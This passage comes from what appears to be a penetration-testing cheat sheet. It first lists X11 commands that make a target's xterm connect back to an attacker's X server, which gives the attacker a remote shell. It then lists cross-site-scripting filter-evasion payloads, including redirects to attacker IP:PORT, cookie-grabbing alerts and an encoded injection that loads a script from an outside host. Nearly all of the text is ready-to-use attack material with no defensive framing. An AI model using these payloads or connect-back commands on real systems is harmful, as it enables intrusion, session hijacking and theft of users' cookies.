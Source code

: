 # Run this INSIDE the spawned xterm on the open X Server
xhost +targetip 
 
# Then on the target connect back to the your X Server
xterm -display attackerip:1
/usr/openwin/bin/xterm -display attackerip:1
or
$ DISPLAY=attackerip:0 xterm
{% endhighlight %}

### XSS Cheat Codes
{% highlight bash %}
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
("< iframes > src=http://IP:PORT </ iframes >")
 
<script>document.location=http://IP:PORT</script>
 
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//–></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
 
";!–"<XSS>=&amp;amp;{()}
 
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"">
<IMG SRC=&amp;amp;#106;&amp;amp;#97;&amp;amp;#118;&amp;amp;#97;&amp;amp;#115;&amp;amp;#99;&amp;amp;#114;&amp;amp;#105;&amp;amp;#112;&amp;amp;#116;&amp;amp;#58;&amp;amp;#97;&amp;amp;#108;&amp;amp;#101;&amp;amp;#114;&amp;amp;#116;&amp;amp;#40;&amp;amp;#39;&amp;amp;#88;&amp;amp;#83;&amp;amp;#83;&amp;amp;#39;&amp;amp;#41;>
 
<IMG SRC=&amp;amp;#0000106&amp;amp;#0000097&amp;amp;#0000118&amp;amp;#0000097&amp;amp;#0000115&amp;amp;#0000099&amp;amp;#0000114&amp;amp;#0000105&amp;amp;#0000112&amp;amp;#0000116&amp;amp;#0000058&amp;amp;#0000097&amp;amp;#0000108&amp;amp;#0000101&amp;amp;#0000114&amp;amp;#0000116&amp;amp;#0000040&amp;amp;#0000039&amp;amp;#0000088&amp;amp;#0000083&amp;amp;#0000083&amp;amp;#0000039&amp;amp;#0000041>
<IMG SRC="jav ascript:alert('XSS');">
 
perl -e 'print "<IMG SRC=javascript:alert(\"XSS\")>";' > out
 
<BODY onload!#$%&amp;()*~+-_.,:;?@[/|\]^`=alert("XSS")>

(">< iframes http://google.com < iframes >)
 
<BODY BACKGROUND="javascript:alert('XSS')">
<FRAMESET><FRAME SRC=”javascript:alert('XSS');"></FRAMESET>
"><script >alert(document.cookie)</script>
%253cscript%253ealert(document.cookie)%253c/script%253e
"><s"%2b"cript>alert(document.cookie)</script>
%22/%3E%3CBODY%20onload=’document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)'%3E
<img src=asdf onerror=alert(document.cookie)>
{% endhighlight %}
